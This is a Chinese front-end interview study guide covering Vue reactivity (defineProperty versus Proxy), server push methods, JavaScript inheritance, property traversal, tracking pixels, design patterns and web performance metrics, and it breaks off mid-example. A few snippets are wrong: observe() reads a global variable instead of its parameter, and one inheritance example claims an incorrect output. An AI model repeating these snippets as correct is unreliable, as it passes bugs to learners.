- **可维护性**：将界面逻辑与业务逻辑分离，使代码更易于理解和维护。
- **可测试性**：由于视图逻辑与业务逻辑解耦，可以更容易地编写单元测试来验证 ViewModel 的行为。
- **可复用性**：ViewModel 可以独立于具体的 View，可以复用在不同的界面上，提高代码的重用性。
- **团队协作**：MVVM 模式将界面开发与后端逻辑分离，使得前端和后端开发人员可以并行工作，提高团队的协作效率。

总而言之，MVVM 是一种能够将界面逻辑与业务逻辑分离的软件架构模式，通过数据绑定实现了 View 和 ViewModel 的自动同步，提高了代码的可维护性、可测试性和可复用性。

- 在 Vue 中，ViewModel 由 Vue 实例扮演。Vue 通过数据绑定机制建立了 View 和 ViewModel 之间的连接，当 ViewModel 中的数据发生变化时，View 会自动更新，反之亦然。这种双向数据绑定使得开发者能够以一种声明式的方式编写代码，而不需要手动操作 DOM 来更新界面。
- 总结来说，MVVM 是一种将数据驱动视图的设计模式，通过 ViewModel 作为中间层来实现数据和视图之间的解耦。Vue 作为一种流行的 MVVM 框架，提供了强大的数据绑定和响应式系统，使开发者能够更轻松地构建交互性强的 Web 应用程序。

**数据劫持** `Vue` 内部使用了 `Obeject.defineProperty()`

来实现双向绑定，通过这个函数可以监听到 `set` 和 `get` 的事件

```js
var data = {
  name: 'poetry',
};
observe(data);
let name = data.name; // -> get value
data.name = 'yyy'; // -> change value

function observe(obj) {
  // 判断类型
  if (!obj || typeof obj !== 'object') {
    return;
  }
  Object.keys(data).forEach((key) => {
    defineReactive(data, key, data[key]);
  });
}

function defineReactive(obj, key, val) {
  // 递归子属性
  observe(val);
  Object.defineProperty(obj, key, {
    enumerable: true,
    configurable: true,
    get: function reactiveGetter() {
      console.log('get value');
      return val;
    },
    set: function reactiveSetter(newVal) {
      console.log('change value');
      val = newVal;
    },
  });
}
```

> 以上代码简单的实现了如何监听数据的 set 和 get
> 的事件，但是仅仅如此是不够的，还需要在适当的时候给属性添加发布订阅

```html
<div>{{name}}</div>
```

> 在解析如上模板代码时，遇到 `{name}` 就会给属性 `name` 添加发布订阅

```js
// 通过 Dep 解耦
class Dep {
  constructor() {
    this.subs = [];
  }
  addSub(sub) {
    // sub 是 Watcher 实例
    this.subs.push(sub);
  }
  notify() {
    this.subs.forEach((sub) => {
      sub.update();
    });
  }
}
// 全局属性，通过该属性配置 Watcher
Dep.target = null;

function update(value) {
  document.querySelector('div').innerText = value;
}

class Watcher {
  constructor(obj, key, cb) {
    // 将 Dep.target 指向自己
    // 然后触发属性的 getter 添加监听
    // 最后将 Dep.target 置空
    Dep.target = this;
    this.cb = cb;
    this.obj = obj;
    this.key = key;
    this.value = obj[key];
    Dep.target = null;
  }
  update() {
    // 获得新值
    this.value = this.obj[this.key];
    // 调用 update 方法更新 Dom
    this.cb(this.value);
  }
}
var data = {
  name: 'poetry',
};
observe(data);
// 模拟解析到 `{{name}}` 触发的操作
new Watcher(data, 'name', update);
// update Dom innerText
data.name = 'yyy';
```

> 接下来, 对 defineReactive 函数进行改造

```js
function defineReactive(obj, key, val) {
  // 递归子属性
  observe(val);
  let dp = new Dep();
  Object.defineProperty(obj, key, {
    enumerable: true,
    configurable: true,
    get: function reactiveGetter() {
      console.log('get value');
      // 将 Watcher 添加到订阅
      if (Dep.target) {
        dp.addSub(Dep.target);
      }
      return val;
    },
    set: function reactiveSetter(newVal) {
      console.log('change value');
      val = newVal;
      // 执行 watcher 的 update 方法
      dp.notify();
    },
  });
}
```

> 以上实现了一个简易的双向绑定，核心思路就是手动触发一次属性的 getter
> 来实现发布订阅的添加

**Proxy 与 Obeject.defineProperty 对比**

`Object.defineProperty` 在实现双向绑定时存在一些局限性，特别是在处理数组时的表现。为了解决这些问题，JavaScript 引入了 `Proxy` 对象，它提供了更强大的拦截和自定义行为能力，进一步改善了双向绑定的实现。

与 `Object.defineProperty` 相比， `Proxy` 具有以下优势：

- **支持监听数组变化**：使用`Proxy`可以监听到数组的变化，包括对数组的`push`、`pop`、`splice`等操作。这使得在实现数组的双向绑定时更加方便和高效。
- **支持监听动态新增属性**：`Proxy`可以监听对象属性的动态新增，而`Object.defineProperty`只能监听已经存在的属性。这意味着可以在运行时动态地给对象添加新属性，并对其进行拦截和处理。
- **更灵活的拦截和自定义行为**：`Proxy`提供了多种拦截器（handler），可以针对不同的操作进行自定义处理。通过拦截器，可以实现属性的读取、设置、删除等操作的拦截，以及对函数的调用进行拦截。这种灵活性使得在实现双向绑定时更加便捷和可控。

然而，需要注意的是， `Proxy` 是 ES6 引入的新特性，对于一些较旧的浏览器可能不完全支持。在选择使用 `Proxy` 还是 `Object.defineProperty` 时，需要根据目标平台和需求进行权衡和选择。

总结来说， `Proxy` 相比 `Object.defineProperty` 提供了更强大和灵活的拦截和自定义行为能力，特别是在处理数组和动态新增属性时表现更好。它是实现双向绑定的一种更先进的方法，为开发者提供了更好的开发体验和效率。

以下是一个简单的示例代码，演示了如何使用 `Proxy` 实现简单的双向绑定功能。

```js
// 定义一个响应式对象
const reactiveObj = {
  name: 'poetry',
  age: 30,
};

// 创建一个代理对象
const reactiveProxy = new Proxy(reactiveObj, {
  get(target, key) {
    console.log(`读取属性 ${key}`);
    return target[key];
  },
  set(target, key, value) {
    console.log(`设置属性 ${key} 值为 ${value}`);
    target[key] = value;
    // 触发更新操作，这里简化为输出当前对象
    console.log(reactiveObj);
    return true;
  },
});

// 使用代理对象进行属性的读取和设置
console.log(reactiveProxy.name); // 读取属性 name
reactiveProxy.age = 40; // 设置属性 age 值为 40
```

在上述示例中，我们使用 `Proxy` 创建了一个代理对象 `reactiveProxy` ，并定义了 `get` 和 `set` 拦截器。在 `get` 拦截器中，我们输出了属性的读取操作，而在 `set` 拦截器中，我们输出了属性的设置操作，并手动触发了更新操作。通过代理对象 `reactiveProxy` ，我们可以像访问普通对象一样读取和设置属性值，同时还可以进行自定义的操作。

在 Vue.js 中，实际的双向绑定实现比上述示例要复杂得多，涉及到依赖追踪、响应式系统、模板编译等方面的内容。Vue.js 使用了 `Proxy` 对象和其他技术来实现双向绑定功能。如果你有兴趣深入了解 Vue.js 的源码实现，可以查看 Vue.js 的官方仓库，其中包含了完整的源码实现。

### 115 WEB 应用从服务器主动推送 Data 到客户端有那些方式

1.  **WebSocket**：WebSocket 是一种双向通信协议，通过建立持久连接，服务器可以主动向客户端推送数据，而不需要客户端发送请求。WebSocket 提供了实时性更好的数据推送能力，适用于需要实时更新数据的场景。
2.  **Server-Sent
    Events（SSE）**：SSE 是 HTML5 中定义的一种服务器推送技术，通过建立一个持久的 HTTP 连接，服务器可以向客户端推送数据，客户端通过监听事件来接收推送的数据。SSE 适用于需要实现单向实时数据推送的场景，例如实时新闻、实时股票行情等。

3.  **Long
    Polling**：长轮询是一种通过客户端不断发送请求，服务器在有数据更新时立即响应的方式。客户端发送一个请求到服务器，服务器一直保持连接打开，直到有新的数据可用或超时，然后将响应返回给客户端，客户端再立即发送下一个请求。长轮询可以模拟实时的数据推送，但相比 WebSocket 和 SSE，它的实现相对复杂，并且对服务器资源的消耗较大。

以上这些方式都可以实现服务器主动推送数据到客户端，选择哪种方式取决于具体的需求和技术栈的选择。WebSocket 和 SSE 是现代 Web 应用中较为常用的服务器推送技术，它们提供了更好的实时性和效率。

示例代码如下：

**WebSocket 示例：**

客户端代码：

```js
const socket = new WebSocket('ws://your-server-url');

socket.addEventListener('open', () => {
  console.log('WebSocket连接已建立');
});

socket.addEventListener('message', (event) => {
  const data = event.data;
  console.log('收到服务器推送的数据:', data);
});

socket.addEventListener('close', () => {
  console.log('WebSocket连接已关闭');
});
```

服务器端代码（使用 Node.js 和 WebSocket 库 ws）：

```js
const WebSocket = require('ws');

const wss = new WebSocket.Server({
  port: 8080,
});

wss.on('connection', (ws) => {
  console.log('新的WebSocket连接已建立');

  // 模拟推送数据给客户端
  setInterval(() => {
    ws.send('服务器主动推送的数据');
  }, 5000);

  ws.on('close', () => {
    console.log('WebSocket连接已关闭');
  });
});
```

**Server-Sent Events 示例：**

客户端代码：

```js
const eventSource = new EventSource('your-server-url');

eventSource.addEventListener('message', (event) => {
  const data = event.data;
  console.log('收到服务器推送的数据:', data);
});

eventSource.addEventListener('error', (event) => {
  console.error('发生错误:', event);
});
```

服务器端代码（使用 Node.js 和 Express 框架）：

```js
const express = require('express');

const app = express();

app.get('/stream', (req, res) => {
  res.setHeader('Content-Type', 'text/event-stream');
  res.setHeader('Cache-Control', 'no-cache');
  res.setHeader('Connection', 'keep-alive');

  // 模拟每5秒发送一次数据给客户端
  setInterval(() => {
    res.write(`data: 服务器主动推送的数据\n\n`);
  }, 5000);
});

app.listen(8080, () => {
  console.log('服务器已启动');
});
```

请注意，以上示例仅为简单示例，实际使用时需要根据具体的需求和技术栈进行适当的调整。

### 116 继承

- **原型链继承**，将父类的实例作为子类的原型，他的特点是实例是子类的实例也是父类的实例，父类新增的原型方法/属性，子类都能够访问，并且原型链继承简单易于实现，缺点是来自原型对象的所有属性被所有实例共享，无法实现多继承，无法向父类构造函数传参。

```js
function Parent() {
  this.name = 'Parent';
}

Parent.prototype.sayHello = function () {
  console.log('Hello, I am ' + this.name);
};

function Child() {}

Child.prototype = new Parent();

var child = new Child();
child.sayHello(); // Output: Hello, I am Child
```

- **构造继承**，使用父类的构造函数来增强子类实例，即复制父类的实例属性给子类，构造继承可以向父类传递参数，可以实现多继承，通过`call`多个父类对象。但是构造继承只能继承父类的实例属性和方法，不能继承原型属性和方法，无法实现函数服用，每个子类都有父类实例函数的副本，影响性能

```js
function Parent(name) {
  this.name = name;
}

Parent.prototype.sayHello = function () {
  console.log('Hello, I am ' + this.name);
};

function Child(name) {
  Parent.call(this, name);
}

var child = new Child('Child');
child.sayHello(); // Output: Hello, I am Child
```

- **实例继承**，为父类实例添加新特性，作为子类实例返回，实例继承的特点是不限制调用方法，不管是 new
  子类（）还是子类（）返回的对象具有相同的效果，缺点是实例是父类的实例，不是子类的实例，不支持多继承

```js
function createParent() {
  var parent = {
    name: 'Parent',
    sayHello: function () {
      console.log('Hello, I am ' + this.name);
    },
  };
  return parent;
}

function createChild() {
  var child = Object.create(createParent());
  child.name = 'Child';
  return child;
}

var child = createChild();
child.sayHello(); // Output: Hello, I am Child
```

- **拷贝继承**：特点：支持多继承，缺点：效率较低，内存占用高（因为要拷贝父类的属性）无法获取父类不可枚举的方法（不可枚举方法，不能使用`for in`访问到）

```js
function copyProperties(target, source) {
  for (var key in source) {
    if (source.hasOwnProperty(key)) {
      target[key] = source[key];
    }
  }
}

function Parent() {
  this.name = 'Parent';
}

Parent.prototype.sayHello = function () {
  console.log('Hello, I am ' + this.name);
};

function Child() {
  Parent.call(this);
  this.name = 'Child';
}

copyProperties(Child.prototype, Parent.prototype);

var child = new Child();
child.sayHello(); // Output: Hello, I am Child
```

- **组合继承**：通过调用父类构造，继承父类的属性并保留传参的优点，然后通过将父类实例作为子类原型，实现函数复用

```js
function Parent(name) {
  this.name = name;
}

Parent.prototype.sayHello = function () {
  console.log('Hello, I am ' + this.name);
};

function Child(name) {
  Parent.call(this, name);
}

Child.prototype = Object.create(Parent.prototype);
Child.prototype.constructor = Child;

var child = new Child('Child');
child.sayHello(); // Output: Hello, I am Child
```

- **寄生组合继承**：通过寄生方式，砍掉父类的实例属性，这样，在调用两次父类的构造的时候，就不会初始化两次实例方法/属性，避免的组合继承的缺点

```js
function Parent(name) {
  this.name = name;
}

Parent.prototype.sayHello = function () {
  console.log('Hello, I am ' + this.name);
};

function Child(name) {
  Parent.call(this, name);
}

function inheritPrototype(child, parent) {
  var prototype = Object.create(parent.prototype);
  prototype.constructor = child;
  child.prototype = prototype;
}

inheritPrototype(Child, Parent);

var child = new Child('Child');
child.sayHello(); // Output: Hello, I am Child
```

### 117 有四个操作会忽略 enumerable 为 false 的属性

- `for...in`循环：只遍历对象自身的和继承的可枚举的属性。

```js
var obj = {
  prop1: 'value1',
  prop2: 'value2',
};

Object.defineProperty(obj, 'prop3', {
  value: 'value3',
  enumerable: false,
});

for (var key in obj) {
  console.log(key); // Output: prop1, prop2
}
```

- `Object.keys()`：返回对象自身的所有可枚举的属性的键名。

```js
var obj = {
  prop1: 'value1',
  prop2: 'value2',
};

Object.defineProperty(obj, 'prop3', {
  value: 'value3',
  enumerable: false,
});

var keys = Object.keys(obj);
console.log(keys); // Output: ["prop1", "prop2"]
```

- `JSON.stringify()`：只串行化对象自身的可枚举的属性。

```js
var obj = {
  prop1: 'value1',
  prop2: 'value2',
};

Object.defineProperty(obj, 'prop3', {
  value: 'value3',
  enumerable: false,
});

var json = JSON.stringify(obj);
console.log(json); // Output: "{"prop1":"value1","prop2":"value2"}"
```

- `Object.assign()`：
  忽略 `enumerable` 为 `false` 的属性，只拷贝对象自身的可枚举的属性。

```js
var source = {
  prop1: 'value1',
  prop2: 'value2',
};

Object.defineProperty(source, 'prop3', {
  value: 'value3',
  enumerable: false,
});

var target = {};
Object.assign(target, source);

console.log(target); // Output: { prop1: 'value1', prop2: 'value2' }
```

> 在以上示例中， `enumerable` 属性为 `false` 的属性 `prop3`

> 在遍历、获取键名、序列化、拷贝等操作中都被忽略了。

### 118 属性的遍历

> ES6 提供了 5 种方法用于遍历对象的属性，它们分别是 `for...in` 、O `bject.keys()` 、 `Object.getOwnPropertyNames()` 、 `Object.getOwnPropertySymbols()` 和 `Reflect.ownKeys()` 。这些方法在遍历对象属性时都遵循相同的次序规则

- **for\...in** `for...in`循环遍历对象自身的和继承的可枚举属性（不含
  Symbol 属性）。

- **Object.keys(obj)**
  `Object.keys` 返回一个数组，包括对象自身的（不含继承的）所有可枚举属性（不含
  Symbol 属性）的键名。

- **Object.getOwnPropertyNames(obj)**
  `Object.getOwnPropertyNames` 返回一个数组，包含对象自身的所有属性（不含
  Symbol 属性，但是包括不可枚举属性）的键名。

- **Object.getOwnPropertySymbols(obj)**
  `Object.getOwnPropertySymbols` 返回一个数组，包含对象自身的所有
  Symbol 属性的键名。

- **Reflect.ownKeys(obj)**
  `Reflect.ownKeys` 返回一个数组，包含对象自身的（不含继承的）所有键名，不管键名是
  Symbol 或字符串，也不管是否可枚举。

> 以上的 5 种方法遍历对象的键名，都遵守同样的属性遍历的次序规则。

- 首先遍历所有数值键，按照数值升序排列。
- 其次遍历所有字符串键，按照加入时间升序排列。
- 最后遍历所有 `Symbol` 键，按照加入时间升序排列。

```js
const obj = {
  [Symbol()]: 'symbol',
  b: 'b',
  10: '10',
  2: '2',
  a: 'a',
};

// for...in
for (let key in obj) {
  console.log(key); // Output: 2, 10, b, a
}

// Object.keys()
const keys = Object.keys(obj);
console.log(keys); // Output: ["2", "10", "b", "a"]

// Object.getOwnPropertyNames()
const propertyNames = Object.getOwnPropertyNames(obj);
console.log(propertyNames); // Output: ["2", "10", "b", "a"]

// Object.getOwnPropertySymbols()
const symbols = Object.getOwnPropertySymbols(obj);
console.log(symbols); // Output: [Symbol()]

// Reflect.ownKeys()
const allKeys = Reflect.ownKeys(obj);
console.log(allKeys); // Output: ["2", "10", "b", "a", Symbol()]
```

在上述示例中，对象 obj 的属性遍历次序为首先数值属性 2 和 10，然后是字符串属性 b 和 a，最后是 Symbol 属性。

需要注意的是， `for...in` 只会遍历可枚举属性且会包括继承的属性，而 `Object.keys()` 、 `Object.getOwnPropertyNames()` 、 `Object.getOwnPropertySymbols()` 和 `Reflect.ownKeys()` 只会遍历对象自身的属性，不包括继承的属性

### 119 为什么通常在发送数据埋点请求的时候使用的是 1x1 像素的透明 gif 图片

1.  **完成整个 HTTP 请求+响应**：使用`GIF`图片可以触发完整的`HTTP`请求+响应流程，尽管在埋点请求中不需要获取和处理响应内容。这样可以确保埋点请求按照正常的`HTTP`流程发送，并且服务器也能正常地接收和处理请求
2.  **无需获取和处理数据**：`GIF`图片作为埋点请求，不需要获取和处理返回的数据。它只是简单地发送一个`GET`请求，不需要等待响应或处理响应内容，因此能够快速地完成请求并继续执行后续的代码
3.  **跨域友好**：由于`GIF`图片是通过``标签加载的，而``标签在浏览器中天然支持跨域请求，因此使用`1x1`像素的透明`GIF`图片发送埋点请求可以轻松地实现跨域请求，无需关注跨域限制和复杂的配置
4.  **无阻塞执行**：埋点请求通常是为了收集用户行为或统计数据，对于页面的性能和用户体验来说，不应该影响页面的加载和执行速度。由于`GIF`图片请求是异步的且无阻塞的，页面可以继续加载和执行其他代码，不会因为发送埋点请求而产生阻塞
5.  **性能优化**：相比使用`XMLHttpRequest`对象发送`GET`请求，使用`1x1`像素的透明`GIF`图片能够在性能上更加高效。`GIF`图片的体积最小，仅需要`43`个字节（最小的`BMP`文件需要`74`个字节，`PNG`需要`67`个字节，而合法的`GIF`，只需要`43`个字节），而且在网络传输中通常会进行`gzip`压缩，进一步减小传输的数据量，这对于大规模的数据埋点和统计是非常有利的

综上所述，使用 `1x1` 像素的透明 `GIF` 图片作为数据埋点请求具有简单、快速、跨域友好、无阻塞等优势，使得它成为常用的数据埋点方式之一

### 120 在输入框中如何判断输入的是一个正确的网址

判断输入的内容是否为正确的网址有多种方式，以下是几种常见的方式：

**1. 使用正则表达式判断**

```js
function isUrlUsingRegex(url) {
  const regex =
    /^(http|https):\/\/[\w\-]+(\.[\w\-]+)+([\w\-\.,@?^=%&:/~\+#]*[\w\-@?^=%&/~\+#])?$/;
  return regex.test(url);
}
```

**2. 使用 URL 对象进行解析**

```js
function isUrlUsingURL(url) {
  try {
    new URL(url);
    return true;
  } catch (error) {
    return false;
  }
}
```

**3. 使用正则表达式和 URL 对象的结合判断**

```js
function isUrlUsingRegexAndURL(url) {
  const regex =
    /^(http|https):\/\/[\w\-]+(\.[\w\-]+)+([\w\-\.,@?^=%&:/~\+#]*[\w\-@?^=%&/~\+#])?$/;
  return regex.test(url) && isUrlUsingURL(url);
}
```

综上所述，判断输入的内容是否为正确的网址可以通过正则表达式匹配、URL 对象进行解析，或者两者结合使用。使用正则表达式可以简单地验证网址的格式是否正确，而使用 URL 对象可以更严谨地验证网址的各个组成部分是否有效。选择哪种方式取决于具体的需求和使用场景。

### 122 常用设计模式有哪些并举例使用场景

- **工厂模式**:
  - 使用场景：当需要根据不同的参数创建不同类型的对象时，可以使用工厂模式。例如，根据用户的选择创建不同类型的支付方式对象。
  - 优点：封装了对象的创建过程，客户端只需关注传入参数即可获取所需对象，降低了耦合度。
  - 缺点：增加了代码的复杂性，需要额外编写工厂方法。

```js
class PaymentFactory {
  createPayment(type) {
    switch (type) {
      case 'credit':
        return new CreditPayment();
      case 'debit':
        return new DebitPayment();
      default:
        throw new Error('Invalid payment type');
    }
  }
}

const paymentFactory = new PaymentFactory();
const creditPayment = paymentFactory.createPayment('credit');
const debitPayment = paymentFactory.createPayment('debit');
```

- **单例模式**:
  - 使用场景：当整个系统中只需要一个实例时，可以使用单例模式。例如，全局的系统配置对象。
  - 优点：确保只有一个实例存在，提供了全局访问点，避免了重复创建实例。
  - 缺点：对扩展不友好，单例的实例化和使用耦合在一起。

```js
class SystemConfig {
  constructor() {
    // Initialize system configuration
  }

  static getInstance() {
    if (!SystemConfig.instance) {
      SystemConfig.instance = new SystemConfig();
    }
    return SystemConfig.instance;
  }
}

const config = SystemConfig.getInstance();
```

- **发布-订阅模式**:
  - 使用场景：当存在多个对象之间需要进行解耦的消息通信时，可以使用发布-订阅模式。例如，实现一个事件总线用于组件间的通信。
  - 优点：解耦了对象之间的通信，订阅者只需关注自己感兴趣的事件，发布者不需要关心具体的订阅者。
  - 缺点：容易造成内存泄漏，需要手动取消订阅，否则订阅者会一直存在。

```js
const EventBus = {
  events: {},

  subscribe(event, callback) {
    if (!this.events[event]) {
      this.events[event] = [];
    }
    this.events[event].push(callback);
  },

  publish(event, data) {
    if (this.events[event]) {
      this.events[event].forEach((callback) => callback(data));
    }
  },

  unsubscribe(event, callback) {
    if (this.events[event]) {
      this.events[event] = this.events[event].filter((cb) => cb !== callback);
    }
  },
};

// 订阅事件
EventBus.subscribe('userLoggedIn', handleUserLoggedIn);

// 发布事件
EventBus.publish('userLoggedIn', {
  username: 'poetry',
});

// 取消订阅事件
EventBus.unsubscribe('userLoggedIn', handleUserLoggedIn);
```

- **观察者模式**:
  - 使用场景：当一个对象的状态发生变化时，需要通知其他依赖该对象的对象进行相应操作时，可以使用观察者模式。例如，实现一个数据的双向绑定功能。
  - 优点：解耦了对象之间的关系，被观察者和观察者之间松耦合，可以动态添加和移除观察者。
  - 缺点：增加了对象之间的相互依赖关系，可能导致系统复杂度增加。

<<<./case/observeable.js

- **装饰模式**:
  - 使用场景：当需要在不修改原始对象的情况下，动态地给对象添加额外的功能时，可以使用装饰模式。例如，给一个基本的组件添加日志记录或性能监测的功能。
  - 优点：遵循开放封闭原则，不需要修改原始对象的结构，可以灵活地添加或移除功能。
  - 缺点：增加了类的数量，可能导致类的层次复杂。

```js
class Component {
  operation() {
    // Perform the component's operation
  }
}

class Decorator {
  constructor(component) {
    this.component = component;
  }

  operation() {
    // Add additional functionality
    this.component.operation();
  }
}

// Create an instance of the component
const component = new Component();

// Create a decorated component
const decoratedComponent = new Decorator(component);

// Call the operation on the decorated component
decoratedComponent.operation();
```

- **策略模式**:
  - 使用场景：当需要根据不同的情况选择不同的算法或策略时，可以使用策略模式。例如，根据用户选择的不同排序方式对数据进行排序。
  - 优点：简化了条件语句的复杂度，将算法封装成独立的策略类，方便扩展和维护。
  - 缺点：增加了类的数量，可能导致类的层次复杂。

```js
class SortingStrategy {
  sort(data) {
    // Perform the sorting algorithm
  }
}

class BubbleSortStrategy extends SortingStrategy {
  sort(data) {
    // Implement bubble sort algorithm
    console.log('Bubble sort applied');
    // Perform bubble sort algorithm
  }
}
class QuickSortStrategy extends SortingStrategy {
  sort(data) {
    console.log('Quick sort applied');
    // Perform quick sort algorithm
  }
}
class Sorter {
  constructor(strategy) {
    this.strategy = strategy;
  }
  setStrategy(strategy) {
    this.strategy = strategy;
  }

  sort(data) {
    this.strategy.sort(data);
  }
}

// Create sorting strategies
const bubbleSort = new BubbleSortStrategy();
const quickSort = new QuickSortStrategy();

// Create sorter and set initial strategy
const sorter = new Sorter(bubbleSort);

// Sort using current strategy
sorter.sort(data);

// Change strategy
sorter.setStrategy(quickSort);

// Sort using new strategy
sorter.sort(data);
```

**总结**

- **工厂模式** - 传入参数即可创建实例
  - 虚拟 DOM 根据参数的不同返回基础标签的 `Vnode` 和组件 `Vnode`
- **单例模式** - 整个程序有且仅有一个实例

  - `vuex` 和 `vue-router` 的插件注册方法 `install`
    判断如果系统存在实例就直接返回掉

- **发布-订阅模式** (`vue` 事件机制)
- **观察者模式** (响应式数据原理)
- **装饰模式**: (`@`装饰器的用法)
- **策略模式**
  策略模式指对象有某个行为,但是在不同的场景中,该行为有不同的实现方案-比如选项的合并策略

### 122 原型链判断

请写出下面的答案

```js
Object.prototype.__proto__;
Function.prototype.__proto__;
Object.__proto__;
Object instanceof Function;
Function instanceof Object;
Function.prototype === Function.__proto__;
```

答案

```js
Object.prototype.__proto__; //null
Function.prototype.__proto__; //Object.prototype
Object.__proto__; //Function.prototype
Object instanceof Function; //true
Function instanceof Object; //true
Function.prototype === Function.__proto__; //true
```

> 这道题目深入考察了原型链相关知识点 尤其是 `Function` 和 `Object`的之间的关系

### 123 RAF 和 RIC 是什么

- `requestAnimationFrame`：
  告诉浏览器在下次重绘之前执行传入的回调函数(通常是操纵
  dom，更新动画的函数)；由于是每帧执行一次，那结果就是每秒的执行次数与浏览器屏幕刷新次数一样，通常是每秒
  `60` 次。

  - [GPT 解释]: 是浏览器提供的一个用于执行动画的 API。它告诉浏览器你希望执行一个动画，并请求浏览器在下一次重绘之前调用指定的回调函数。这个回调函数会在浏览器的下一次重绘之前执行，通常用于执行动画逻辑。

- `requestIdleCallback`：:
  会在浏览器空闲时间执行回调，也就是允许开发人员在主事件循环中执行低优先级任务，而不影响一些延迟关键事件。如果有多个回调，会按照先进先出原则执行，但是当传入了
  `timeout` ，为了避免超时，有可能会打乱这个顺序

下面是 `requestAnimationFrame` 和 `requestIdleCallback` 的示例代码：

**requestAnimationFrame**

当使用 `requestAnimationFrame` 实现动画时，通常需要更新 DOM
元素的属性来创建平滑的动画效果。以下是一个使用 `requestAnimationFrame`

的简单示例代码：

<<<./case/requestAnimationFrame.js

在上面的代码中， `animate`函数用于执行动画操作。在每一帧动画中，我们通过获取元素的当前位置，增加一个速度值，然后更新元素的位置。在这个例子中，我们通过改变`left` 属性来实现水平移动的动画效果。
在每一帧动画结束后，我们检查是否到达了目标位置（这里假设目标位置为左侧
200px 的位置），如果没有到达目标位置，我们再次请求下一帧动画，从而创建连续的动画效果。

通过使用`requestAnimationFrame` ，可以实现流畅的动画效果，并且能够与浏览器的重绘周期同步，避免了过度绘制的问题。这样可以提供更好的性能和用户体验。

**requestIdleCallback**

<<<./case/requestIdleCallback.js

在上面的代码中， `requestIdleCallback`

用于执行低优先级任务。首先定义了一个 `processIdleTasks`

函数，它会在浏览器空闲时间内执行任务。在函数内部，通过
`deadline.timeRemaining()`

方法判断是否还有空闲时间可用，并且任务队列不为空时，循环执行低优先级任务。如果还有未完成的任务，会继续请求下一次
idle callback。

然后，通过 `addTask`

函数向低优先级任务列表中添加任务。当添加任务时，如果当前没有请求进行中，则请求下一次
idle callback 来执行任务。

通过使用
`requestIdleCallback` ，可以在浏览器空闲时间内执行低优先级任务，而不会影响一些延迟关键事件的执行。这有助于提高应用程序的性能和响应能力。

### 124 js 自定义事件

> 三要素： `document.createEvent()` `event.initEvent()`

> `element.dispatchEvent()`

在 JavaScript 中，可以使用以下三个要素来创建和触发自定义事件：

1.  `document.createEvent()`:
    这个方法用于创建一个新的事件对象。可以使用不同的方法根据需要创建不同类型的事件对象，例如
    `createEvent('Event')` 、 `createEvent('CustomEvent')`

    等。这个方法已经过时，推荐使用更现代的方式创建事件对象，如下文所示。

2.  `Event` 构造函数：这是现代的方式来创建事件对象。可以使用
    `new Event(eventName)` 创建一个新的事件对象，其中 `eventName`

    是自定义事件的名称。

3.  `event.initEvent()`: 对于使用 `document.createEvent()`
    创建的事件对象，可以调用 `initEvent(eventName, bubbles, cancelable)`

    方法进行初始化。其中 `eventName` 是事件名称， `bubbles`

    是一个布尔值，表示事件是否冒泡， `cancelable`

    是一个布尔值，表示事件是否可以被取消。

4.  `element.dispatchEvent()`:
    这个方法用于触发自定义事件。可以将创建好的事件对象通过调用
    `dispatchEvent(event)` 方法分派到指定的 DOM
    元素上，从而触发相应的事件处理程序。

下面是一个示例，演示如何使用这三个要素来创建和触发自定义事件：

```js
// 创建自定义事件对象
const event = new Event('customEvent');

// 初始化事件对象（可选）
event.initEvent('customEvent', true, true);

// 获取要触发事件的元素
const element = document.getElementById('myElement');

// 触发自定义事件
element.dispatchEvent(event);
```

在上述示例中，首先使用 `Event` 构造函数创建了一个名为 `'customEvent'`

的自定义事件对象。然后，可以选择使用 `initEvent()`

方法对事件对象进行初始化，指定事件名称、冒泡和取消属性。

最后，通过 `getElementById()` 方法获取要触发事件的元素，并调用
`dispatchEvent()`

方法将自定义事件对象分派到该元素上，从而触发自定义事件。

请注意，这里使用的是现代的事件创建和触发方法，而不是使用过时的
`createEvent()`

方法。这是因为现代的方法更加简单直观，并且具有更好的性能。

### 125 前端性能定位、优化指标以及计算方法

> 前端性能优化 已经是老生常谈的一项技术了
> 很多人说起性能优化方案的时候头头是道
> 但是真正的对于性能分析定位和性能指标这块却一知半解
> 所以这道题虽然和性能相关 但是考察点在于平常项目如何进行性能定位和分析
>
> - 我们可以从 前端性能监控-埋点以及 `window.performance` 相关的 `api`

> 去回答
>
> - 也可以从性能分析工具 `Performance` 和 `Lighthouse`

> - 还可以从性能指标 `LCP` `FCP` `FID` `CLS` 等去着手

下面是关于前端性能定位、优化指标以及计算方法的一些信息：

1.  前端性能监控和埋点：通过在关键点上埋点，可以监控网页的加载时间、资源请求、错误等关键性能指标。常用的前端性能监控工具包括自定义的日志记录、第三方服务（如 Google
    Analytics、Sentry 等）和开源工具（如 Fundebug、Tongji.js 等）。此外， `window.performance`

    API 提供了性能数据，可以通过它获取更详细的性能指标，如页面加载时间、资源加载时间等。

2.  性能分析工具：使用性能分析工具可以深入分析网站的性能瓶颈，并提供有针对性的优化建议。其中两个常用的工具是：

- Performance：现代浏览器提供的内置性能分析工具，可通过浏览器开发者工具访问。它提供了时间轴记录、CPU、内存和网络分析等功能，帮助开发者找到性能瓶颈并进行优化。
- Lighthouse：由 Google 开发的开源工具，可用于自动化测试网页性能，并提供综合的性能报告。它评估网页在多个方面的性能表现，并给出相应的优化建议。

3.  性能指标：性能指标是用于衡量网站性能的关键指标，常用的指标包括：

- **LCP**（Largest Contentful
  Paint）：标识页面上最大的可见内容加载完成的时间，衡量用户可见内容的加载速度。

- **FCP**（First Contentful
  Paint）：表示页面上第一个内容元素（如文字、图片）呈现的时间，标识页面加载的起点。

- **FID**（First Input
  Delay）：测量从用户首次与页面交互（点击链接、按钮等）到浏览器实际响应该交互的时间。

- **CLS**（Cumulative Layout
  Shift）：测量页面上元素布局的稳定性，即元素在页面加载过程中发生的意外移动的累积量。

- **TTFB**（Time To First
  Byte）：表示从发起请求到接收到第一个字节的时间，衡量服务器响应速度。

- **TTI**（Time To
  Interactive）：表示页面变得可交互的时间，即用户可以进行操作和与页面进行交互的时间点。

- **TBT**（Total Blocking
  Time）：衡量页面在加载过程中存在的阻塞时间总和，即浏览器忙于处理
  JavaScript 执行而导致无法响应用户输入的时间。

这些指标可以通过性能分析工具或浏览器开发者工具来获得。优化这些指标有助于提升页面加载速度、响应性和用户体验。

**以下是这些指标的计算方法和示例代码：**

**1. LCP（Largest Contentful Paint）：**

- 计算方法：监测到页面上的最大可见元素（如图片、视频等）加载完成的时间点。

```js
const observer = new PerformanceObserver((list) => {
  for (const entry of list.getEntries()) {
